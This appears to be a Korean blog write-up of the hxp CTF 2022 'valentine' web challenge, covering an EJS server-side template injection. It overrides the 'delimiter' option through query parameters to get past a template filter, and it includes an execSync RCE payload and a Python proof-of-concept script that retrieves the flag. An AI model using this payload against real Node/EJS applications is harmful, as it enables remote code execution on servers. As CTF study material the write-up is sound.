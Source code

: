 ```yaml
---
title: '[CTF] [hxp CTF 2022] valentine'
author: hoppi
date: 2023-03-14 22:01:00 + 0000
categories: [CTF]
tags: [ctf, hxp_2022, valentine, web]
---
```


오랜만에 CTF에 참여했습니다. 앞으로는 좀 더 자주 참여하려구요. 참고로 이 문제는 기간동안 풀지 못했습니다. 했던 방법이 안돼서 뭔가 내가 모르는게 있나 싶었는데 끝나고 롸업을 보니 유저 이슈... 올해는 유저 이슈를 줄여보도록 하자라고 마음먹었는데 제 자신한테 화가 나내요🥲

# 분석
***

## 플레그 위치
*** 
플레그는 아래처럼 `flag.txt`로 존재하지만 `Dockerfile`을 보면 읽을 권한은 `root`만 가지고 있어서 우리는 `readflag` 바이너리를 실행해야합니다. 즉 `RCE`가 필요하다는 것을 알 수 있죠.  
```plaintext
├── Dockerfile
├── app.js
├── docker-compose.yml
├── flag.txt
├── index.html
├── node_modules
├── package-lock.json
├── package.json
├── readflag
```
<br/>

## 기능
***
아래처럼 `/template` 엔드포인트를 통해서 `ejs` 템플릿 구문을 사용할 수 있지만 `<%= name %>`만 허용하고 있습니다. 
```javascript
// app.js: 19
app.post('/template', function(req, res) {
  let tmpl = req.body.tmpl;
  let i = -1;
  while((i = tmpl.indexOf("<%", i+1)) >= 0) {
    if (tmpl.substring(i, i+11) !== "<%= name %>") {
      res.status(400).send({message:"Only '<%= name %>' is allowed."});
      return;
    }
  }
  let uuid;
  do {
    uuid = crypto.randomUUID();
  } while (fs.existsSync(`views/${uuid}.ejs`))

  try {
    fs.writeFileSync(`views/${uuid}.ejs`, tmpl);
  } catch(err) {
    res.status(500).send("Failed to write Valentine's card");
    return;
  }
  let name = req.body.name ?? '';
  return res.redirect(`/${uuid}?name=${name}`);
});
```
{: file='app.js'}
<br/>

# 취약점
***
ejs의 경우 템플릿 구문을 커스텀할 수 있는데 그렇게 되면 `RCE`를 할 수 있습니다. 그렇다면 어떻게 우회를 해야할까요?
![custom](../../../assets/img/2023-03-14/custom.png){: w="700" h="350" }  
<br/>

유명한 취약점인 [CVE-2022-29078](https://eslam.io/posts/ejs-server-side-template-injection-rce/)는 `ejs@3.1.6`에서 `RCE`를 가능하게 합니다. `req.query` 객체를 한번에 `res.render`의 인자로 넘겨줄 때 발생하죠. 이 문제도 마찬가지로 그렇게 주고 있었습니다.  
```javascript
// app.js: 43
app.get('/:template', function(req, res) {
  let query = req.query;
  console.log(`[+] query ==> ${JSON.stringify(query)}`)
  let template = req.params.template
  if (!/^[0-9A-F]{8}-[0-9A-F]{4}-[4][0-9A-F]{3}-[89AB][0-9A-F]{3}-[0-9A-F]{12}$/i.test(template)) {
    res.status(400).send("Not a valid card id")
    return;
  }
  if (!fs.existsSync(`views/${template}.ejs`)) {
    res.status(400).send('Valentine\'s card does not exist')
    return;
  }
  if (!query['name']) {
    query['name'] = ''
  }
  return res.render(template, query);
});

```
{: file='app.js'}
<br/>

하지만 이 문제의 경우 `3.1.8` 버전이고 ~~bodyParser.urlencoded의 extended가 false여서 객체의 객체를 파싱하지 못합니다.~~ 하지만 해당 취약점의 글을 자세히 보면 `ejs` 내부에서 쓰는 옵션을 쿼리 스트링형식으로 전달해주면 그것을 덮어씌울 수 있게됩니다. 따라서 `delimeter`를 커스텀하여 `<%= name %>`를 우회할 수 있게 됩니다.  
```javascript
...

var _OPTS_PASSABLE_WITH_DATA = ['delimiter', 'scope', 'context', 'debug', 'compileDebug',
  'client', '_with', 'rmWhitespace', 'strict', 'filename', 'async'];
```
{: file='ejs.js'}
<br/>


# Exploit
***
아래와 같이 원하는 `delimeter`만 설정하여 `RCE` 페이로드를 `tmpl`으로 설정해주고 `delimeter`를 넘겨주면 됩니다.  
```plaintext
<@- process.mainModule.require('child_process').execSync('/readflag') @>
```
{: file='tmpl'}
<br/>

하지만 `tmpl`을 작성하고 전송하면 해당 파일로 바로 `Redirect` 됩니다. `Dockerfile`을 보면 아래와 같은 설정이 존재하는데 바로 `express`에서 `캐싱`을 설정하는 것이었죠. 리다이렉트되면 기본 `delimeter`인 `%`가 캐싱되는 것이죠. 따라서 리다이렉트되고 나서 `delimeter` 파라미터를 설정해줘도 정상적으로 `exploit`이 되지 않았던 이유입니다. 제가 풀지 못했던 이유가 이것입니다... 좀 더 생각해보고 시도했으면 풀었을텐데 너무 아쉽네요   
```plaintext
ENV NODE_ENV=production
```
{: file='Dockerfile'}
<br/>

```javascript
if (env === 'production') {
  this.enable('view cache');
}
```
{: file='express/application.js'}
<br/>

## PoC Code
***
요청을 보낼때 `allow_redirects`를 `false`로 설정해주어 리다이렉트를 막으면 됩니다.  
```python
from requests import post, get
from re import search

info = lambda x : print(f"[+] {x}")

URL ='http://168.119.235.41:9086'
FLAG =''


res = post(f"{URL}/template", data={"tmpl":"<@- process.mainModule.require('child_process').execSync('/readflag') @>"}, allow_redirects=False)

m = search(r"Redirecting to /(?P<uuid>.*?)?name=", res.text)
res = get(f"{URL}/{m.group('uuid')}?name=a&delimiter=@")
m = search(r"hxp{.*?}", res.text)
if m :
    FLAG = m.group()
    info(f'Flag is {FLAG}')
else :
    print(f"[-] Failed to find the flag")

```
{: file='exploit.py'}
<br/>

# 추가
***
본문에 취소선을 한 이유는 `express.urlencoded`와 혼동했기 때문입니다. 결론은 `bodyParser.urlencoded`는 아무런 영향이 없습니다. 따라서 `3.1.8`버전의 `0-day exploit`이 가능할 수 있지만 이 역시 `캐시` 때문에 되지 않을겁니다. 아무튼 드림핵에 [ejs@3.1.8](https://dreamhack.io/wargame/challenges/675/)과 [Note](https://dreamhack.io/wargame/challenges/644/) 문제가 있는데 이 문제와 같이 보면 이해하는데 아주 도움이 될 것 같습니다.
<br/>

# Reference
***
- [https://eslam.io/posts/ejs-server-side-template-injection-rce/](https://eslam.io/posts/ejs-server-side-template-injection-rce/)
- [https://www.npmjs.com/package/ejs](https://www.npmjs.com/package/ejs)
- [https://hxp.io/blog/101/hxp-CTF-2022-valentine/](https://hxp.io/blog/101/hxp-CTF-2022-valentine/)